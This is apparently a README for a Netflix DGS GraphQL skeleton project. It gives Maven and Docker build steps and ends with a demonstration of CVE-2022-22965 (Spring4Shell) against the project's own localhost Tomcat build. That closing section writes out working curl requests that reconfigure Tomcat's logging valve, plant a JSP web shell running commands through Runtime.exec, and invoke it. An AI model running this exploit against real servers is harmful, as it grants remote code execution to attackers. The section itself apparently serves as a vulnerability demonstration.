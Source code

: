 # DGS (from Netflix) skeleton project

[![github-dgs-build](https://github.com/muldos/dgs-skeleton/actions/workflows/workflow.yml/badge.svg)](https://github.com/muldos/dgs-skeleton/actions/workflows/workflow.yml)

## Introduction

Run the project locally (outside docker): 
Set SHOWS_JSONDB_FOLDER env var (example : /Path/to/dgs-skeleton/src/main/resources/data)
then run

```
mvn spring-boot:run
```

## Build & run
Be sure that docker daemon is running.

Build as self executable JAR

```
export PKG_VERSION=1.2.3
export PKG_TYPE=jar
jf mvn -Drevision=$PKG_VERSION -Dmaven.test.skip=true clean package
docker build --build-arg JAR_FILE_NAME=dgs-skeleton-$PKG_VERSION.$PKG_TYPE -t dgs-graphql:latest .
docker run -p 8080:8080 -v ./src/main/resources/data:/var/db_data -d --name graphql-demo dgs-graphql:latest
```

Then browse to http://localhost:8080/graphiql

Build WAR for Tomcat
```
export PKG_VERSION=1.2.3
export PKG_TYPE=jar
export MVN_VIRTUAL_REPO=dro-backend-maven-virtual
jf mvnc --repo-resolve-releases=$MVN_VIRTUAL_REPO --repo-deploy-releases=$MVN_VIRTUAL_REPO --repo-resolve-snapshots=$MVN_VIRTUAL_REPO  --repo-deploy-snapshots=$MVN_VIRTUAL_REPO
jf mvn -Drevision=$PKG_VERSION -Dmaven.test.skip=true -f pom-war.xml clean package deploy
cp ./target/dgs-skeleton-webapp-$PKG_VERSION.$PKG_TYPE ./target/jfrog-demo.war
docker build --build-arg WAR_FILE_NAME=jfrog-demo.war -f DockerfileTomcat -t dgs-graphql-tomcat:latest .
docker run -p 8080:8080 -v $PWD/src/main/resources/data:/var/db_data -d --name graphql-demo dgs-graphql-tomcat:latest
```

Then browse to http://localhost:8080/jfrog-demo/graphiql

If this version is containing the vulnerabilty CVE-2022-22965, you can then exploit it as follow : 

First run
```
curl -H "Accept: text/html;" "http://localhost:8080/jfrog-demo/vulnerable-path?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7b%63%6f%64%65%7d%69&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
```
to changes Tomcat config valve.

Then create the web shell 
```
curl -H "Accept: text/html;" -H "code: <% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(String.valueOf(1337))).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1) { out.println(new String(b)); } %>" "http://localhost:8080/jfrog-demo/vulnerable-path"
```
And run commands using
```
http://localhost:8080/shell.jsp?1337=ls%20-al
```

### References
- https://github.com/itsecurityco/CVE-2022-22965
- https://netflix.github.io/dgs/

